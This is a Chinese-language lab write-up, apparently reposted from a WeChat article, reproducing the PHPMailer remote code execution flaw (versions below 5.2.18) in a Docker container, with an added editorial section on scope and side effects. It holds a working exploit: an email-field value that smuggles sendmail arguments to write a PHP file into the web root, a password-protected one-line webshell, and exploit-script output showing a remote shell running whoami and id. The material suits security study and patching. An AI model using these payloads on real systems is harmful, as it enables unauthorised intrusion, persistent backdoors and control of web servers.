







## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;5.2.18，需mail/sendmail后端及可控发件人、可写Web路径，未说明SMTP模式差异

代码与实验材料：容器、表单和工具输出，写a.php/backdoor.php持久后门；脚本要求公众号回复未嵌入

来源证据范围：ExploitDB40968及博客，镜像没锁digest，缺官方公告

- **适用与权限边界（1）**：未认证RCE没有说明应用邮件路径前提；依据：包含库不等于可控Sender/From传入mail；未注明sendmail参数兼容性及写路径权限。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（2）**：复现副作用和修复缺失；依据：两种方式写Web后门并等待数分钟，缺清理和修复完整性说明。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# PHPMailer 远程命令执行漏洞复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/iYUGj-iOOv6oHdex36L4GA)


PHPMailer 远程命令执行漏洞复现

一、漏洞简介

PHPMailer 是 PHP 电子邮件创建及传输类，用于多个开源项目：WordPress, Drupal, 1CRM, SugarCRM, Yii, Joomla! 等。

PHPMailer < 5.2.18 版本存在安全漏洞，可使未经身份验证的远程攻击者在 Web 服务器用户上下文中执行任意代码，远程控制目标 web 应用。

二、影响版本：

PHPMailer<5.2.18

三、漏洞复现

Docker 环境：

```
docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033
```

拉去镜像启动环境：



http://192.168.1.107:8080/

```
http://192.168.1.107:8080/
在name处随便输入比如“aaa”，在email处输入：

"aaa". -OQueueDirectory=/tmp/. -X/var/www/html/a.php @aaa.com
在message处输入一句话木马：

<?php @eval($_POST['thelostworld']); ?> 
```



上传完一句话木马后，页面会响应 3-5 分钟，响应时间较长



木马地址：http://192.168.1.107:8080/a.php 密码：thelostworld



 虚拟终端：



使用脚本：

获取脚本后台回复 “PHPMailer” 获取脚本  



```
➜  Desktop ./exploit.sh 192.168.1.107:8080
[+] CVE-2016-10033 exploit by opsxcq
[+] Exploiting 192.168.1.107:8080


[+] Target exploited, acessing shell at http://192.168.1.107:8080/backdoor.php
[+] Checking if the backdoor was created on target system
[+] Backdoor.php found on remote system
[+] Running whoami
www-data
RemoteShell> [+] Running 


RemoteShell> id
[+] Running id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

访问木马地址：  

http://192.168.1.107:8080/backdoor.php



参考：

https://www.cnblogs.com/Hi-blog/p/7812008.html

https://www.exploit-db.com/exploits/40968

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！


个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article


欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
